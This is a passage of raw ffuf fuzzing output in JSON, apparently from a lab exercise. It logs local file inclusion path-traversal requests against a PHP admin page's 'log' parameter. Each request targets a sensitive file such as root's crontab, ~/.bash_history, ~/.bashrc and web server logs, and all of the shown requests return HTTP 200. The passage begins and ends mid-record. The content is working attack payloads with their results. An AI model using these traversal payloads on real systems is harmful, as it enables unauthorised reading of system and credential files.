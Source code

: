 charset=UTF-8","redirectlocation":"","scraper":{},"duration":44892844,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/xferlog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5dd","FUZZ":"/var/run/utmp"},"position":221,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44697192,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/run/utmp","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5db","FUZZ":"/var/log/yum.log"},"position":219,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45546647,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/yum.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5dc","FUZZ":"/var/mysql.log"},"position":220,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45747498,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/mysql.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5de","FUZZ":"/var/spool/cron/crontabs/root"},"position":222,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43842659,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/spool/cron/crontabs/root","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e0","FUZZ":"/var/www/log/access_log"},"position":224,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44048830,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/www/log/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5df","FUZZ":"/var/webmin/miniserv.log"},"position":223,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44393121,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/webmin/miniserv.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e2","FUZZ":"/var/www/logs/access_log"},"position":226,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44374831,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/www/logs/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e1","FUZZ":"/var/www/log/error_log"},"position":225,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44987844,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/www/log/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e3","FUZZ":"/var/www/logs/error_log"},"position":227,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44201460,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/www/logs/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e4","FUZZ":"/var/www/logs/access.log"},"position":228,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44192680,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/www/logs/access.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e5","FUZZ":"/var/www/logs/error.log"},"position":229,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43993529,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/www/logs/error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e6","FUZZ":"~/.atfp_history"},"position":230,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44278541,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../../~/.atfp_history","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e7","FUZZ":"~/.bash_history"},"position":231,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44398881,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../../~/.bash_history","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e8","FUZZ":"~/.bash_logout"},"position":232,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44338250,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../../~/.bash_logout","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e9","FUZZ":"~/.bash_profile"},"position":233,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44170910,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../../~/.bash_profile","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ea","FUZZ":"~/.bashrc"},"position":234,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;